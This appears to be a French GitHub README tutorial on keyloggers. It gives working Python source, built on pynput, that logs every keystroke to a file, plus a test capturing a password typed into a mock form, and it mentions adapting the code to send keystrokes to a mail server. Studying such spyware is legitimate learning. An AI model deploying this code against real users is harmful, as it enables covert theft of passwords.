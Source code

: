 <h2 align="center">Qu'est ce qu'un Keylogger ?</h2>

<p>
un Keylogger est un logiciel permettant d'enregistrer les frappes faites au clavier. 
Ce malware rentre dans la catégorie des spywares. 
</p>

<h2 align="center">A quoi sert t-il ?</h2>

<p>
Ce spyware permet de connaitre les touches frappées par l'utilisateur. 
En renconstituant l'arborescence, on peut déterminer des mots de passes, des sites webs consultés ... 

</p>

<h4>Exemple :</h4>
<p>
facebookmonadressemail@mail.comPassw0rd1 

En décomposant cette liste, on peut déterminer que l'utilisateur c'est rendu sur Facebook,
à comme adresse mail : adressemail@mail.com et comme mot de passe : Passw0rd1.
</p>

<h3 align="center">Création d'un Keylogger</h3>

<p> 
Nous allons avoir besoin de plusieurs choses.
</p>

<ul>
    <li>Un éditeur de texte.</li>
    <li>Pyton3 d'installé sur notre machine.</li>
    <li>La librairie pynput installée</li>
</ul>

<p>
Pour installer la librairie pynput :
</p>

```python  

pip install pynput

```

<p>
Voici le code que j'ai réaliser permettant d'enregistrer chaque frappe dans un fichier .txt. 
Il est possible de modifier ce code pour envoyer les informations vers un serveur SMTP ou autre.

Mon objectif est juste d'analyser le comportement d'un keylogger 
</p>

<h3 align="center">Le code Python</h3>

```python
from pynput.keyboard import Listener #Import de la librairie
import logging

file="DataKey.txt" #fichier dans lequel va être enregistrer les frappes
logging.basicConfig(filename=file, level=logging.DEBUG, format="%(message)s") #les informations que l'on souhaite récupérer lors de la frappe.

def on_press(key): #fonction qui récupère les touches frapper par l'utilisateur. 
    logging.info(key)

with Listener(on_press=on_press) as listener:
    listener.join()

```

<h3 align="center">Test grandeur nature</h3>


<p>
Pour la seconde partie, je n'ai pas converti le programme en .exe ou essayer de l'obfusquer.
J'ai créé la maquette d'un site web contenant un form. 

J'ai demandé à plusieurs personnes de rentrer un mot de passe. 
</p>

![Formulaire](https://user-images.githubusercontent.com/96829109/188643428-eded0ff1-f9e4-4acb-8b92-4345f0b35001.PNG)

<p>
Pour valider le bon fonctionnement du site web, j'ai vérifier les données enregistrer par le keylogger. 
</p>

```
Key.shift
'P'
'a'
's'
's'
'w'
'o'
'r'
'd'
<97>
```

![Password](https://user-images.githubusercontent.com/96829109/188645212-a15f0689-b7e3-4dca-8c1c-7dee335bc8ee.PNG)

<p>
On peut comprendre que une ou plusieurs lettres sont en majuscules car la touche Shift a été pressée.

De plus, à la fin nous avons un chiffre '97'. Cela ne correspond pas au password.

Pour cela, j'ai du effectuer un tableau pour obtenir une concordance.

<table>
    <tr>
      <td>0</td>
      <td>1</td>
      <td>2</td>
      <td>3</td>
      <td>4</td>
      <td>5</td>
      <td>6</td>
      <td>7</td>
      <td>8</td>
      <td>9</td>
    </tr>
    <tr>
      <td>96</td>
      <td>97</td>
      <td>98</td>
      <td>99</td>
      <td>100</td>
      <td>101</td>
      <td>102</td>
      <td>103</td>
      <td>104</td>
      <td>105</td>
    </tr>
</table>

<p>
Le mot de passe contient à 1 à la fin. Il ne reste plus qu'à tester quels sont les lettres en majuscules. 
</p>
